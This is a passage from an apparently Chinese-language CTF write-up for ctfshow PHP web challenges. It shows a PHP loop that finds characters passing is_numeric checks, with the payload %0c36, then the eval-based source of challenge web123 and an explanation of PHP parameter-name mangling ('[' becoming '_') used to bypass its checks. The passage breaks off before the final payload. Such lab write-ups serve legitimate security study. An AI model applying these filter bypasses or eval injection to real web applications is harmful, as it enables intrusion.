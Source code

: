 ```
for ($i=0;$i<=128;$i++){
    $x=chr($i).'36';
    if (trim($x)!=='36' && is_numeric($x)){
        echo urlencode($x).' ';
    }
}
```

```
%0C36 %2B36 -36 .36 036 136 236 336 436 536 636 736 836 936
```

payload：%0c36

![image-20240114163555217](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20240114163555217.png)

## web123(argv)

```php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?> 
```

$_SERVER['argv'] 当通过 GET 方式调用时，该变量包含query string

```
http://127.0.0.1/phplab/argv.php?$flag=1
输出
array(1) {
  [0]=>
  string(7) "$flag=1"
}
```

CTF_SHOW.COM作为变量名传参时，空格、.、+、[会变成_

这里有一个漏洞，当[被换成_后，后面的就不会再转换成`_`,构造成CTF[SHOW.COM

payload：

姿势一：
